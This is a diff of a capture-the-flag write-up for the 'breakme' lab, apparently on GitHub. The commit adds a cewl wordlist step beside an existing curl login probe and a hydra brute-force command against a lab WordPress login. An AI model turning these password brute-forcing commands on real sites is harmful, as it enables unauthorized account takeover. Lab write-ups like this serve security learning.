

Before and after one commit to l0n3m4n/Writeups, a Markdown page: medium/breakme/breakme.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/medium/breakme/breakme.md
+++ b/medium/breakme/breakme.md
@@ -344,6 +344,10 @@ curl -s -X POST http://breakme.thm/wordpress/wp-login.php \
   -d "log=admin&pwd=wrongpassword&wp-submit=Log+In" | grep -i error
 
 ```
+### Grab usernames
+```bash
+cewl -d 2 http://breakme.thm/wordpress/ -w usernames.txt
+```
 ```bash
 > hydra -l admin -P /usr/share/wordlists/rockyou.txt breakme.thm http-post-form \
 "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:login_error" -V -f >/dev/null
````
